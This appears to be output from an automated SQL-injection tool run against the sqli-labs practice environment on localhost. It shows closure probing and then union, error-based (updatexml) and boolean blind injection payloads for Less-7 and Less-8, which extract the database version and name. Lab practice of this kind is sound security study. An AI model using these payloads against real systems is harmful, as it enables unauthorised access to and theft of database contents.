 

url: http://127.0.0.1/sqli-labs/Less-7
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ok]
即将开始联合注入

....
..............
联合注入payload： http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(version())>=4 %23
http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(version())>=8 %23
false
....
..
payload: http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(version())=6 %23
长度为6
5.5.53

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(database())>=4 %23
http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(database())>=8 %23
http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(database())>=16 %23
false
..
payload: http://127.0.0.1/sqli-labs/Less-7/?id=1'))  and length(database())=8 %23
长度为8
security

盲注成功




url: http://127.0.0.1/sqli-labs/Less-8
判断闭合方式
[   ] [ '  ] [ok]
即将开始联合注入

................
..
联合注入payload： http://127.0.0.1/sqli-labs/Less-8/?id=1'  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入
